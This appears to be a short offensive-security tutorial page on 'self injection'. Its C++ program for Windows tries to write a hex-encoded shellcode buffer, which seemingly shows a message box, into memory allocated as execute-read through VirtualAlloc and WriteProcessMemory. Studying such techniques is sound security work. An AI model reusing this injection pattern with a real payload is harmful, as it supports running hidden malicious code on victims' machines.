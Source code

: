 # PWN SELF INJECTION


## WRITE

Now we'll try to write our shellcode in a non-writable allocation by giving the allocation **PAGE_EXEUTE_READ** permission.  


```cpp

#include <stdio.h>
#include <Windows.h>

int main()
{
    unsigned char shellcode[] =
        "\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9\x64\x8b"
        "\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08\x8b\x7e\x20\x8b"
        "\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1\xff\xe1\x60\x8b\x6c\x24"
        "\x24\x8b\x45\x3c\x8b\x54\x28\x78\x01\xea\x8b\x4a\x18\x8b\x5a"
        "\x20\x01\xeb\xe3\x34\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0"
        "\xfc\xac\x84\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c"
        "\x24\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5a"
        "\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c\x61\xc3\xb2"
        "\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e\x0e\xec\x52\xe8\x9f"
        "\xff\xff\xff\x89\x45\x04\xbb\x7e\xd8\xe2\x73\x87\x1c\x24\x52"
        "\xe8\x8e\xff\xff\xff\x89\x45\x08\x68\x6c\x6c\x20\x41\x68\x33"
        "\x32\x2e\x64\x68\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89"
        "\xe6\x56\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
        "\x24\x52\xe8\x5f\xff\xff\xff\x68\x6f\x78\x58\x20\x68\x61\x67"
        "\x65\x42\x68\x4d\x65\x73\x73\x31\xdb\x88\x5c\x24\x0a\x89\xe3"
        "\x68\x70\x77\x6e\x58\x68\x52\x65\x74\x32\x31\xc9\x88\x4c\x24"
        "\x07\x89\xe1\x31\xd2\x52\x53\x51\x52\xff\xd0\x31\xc0\x50\xff"
        "\x55\x08";


    void* exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READ);
    printf("[+] Allocation created successfully %p \n", exec);

    if (WriteProcessMemory(GetCurrentProcess(), exec, shellcode, sizeof(shellcode), NULL)) {
        printf("[+] Shellcode wrote successfully.");
    }
    else {
        printf("[-] No permission to write the shellcode.");
    }
    return 0;
}
```
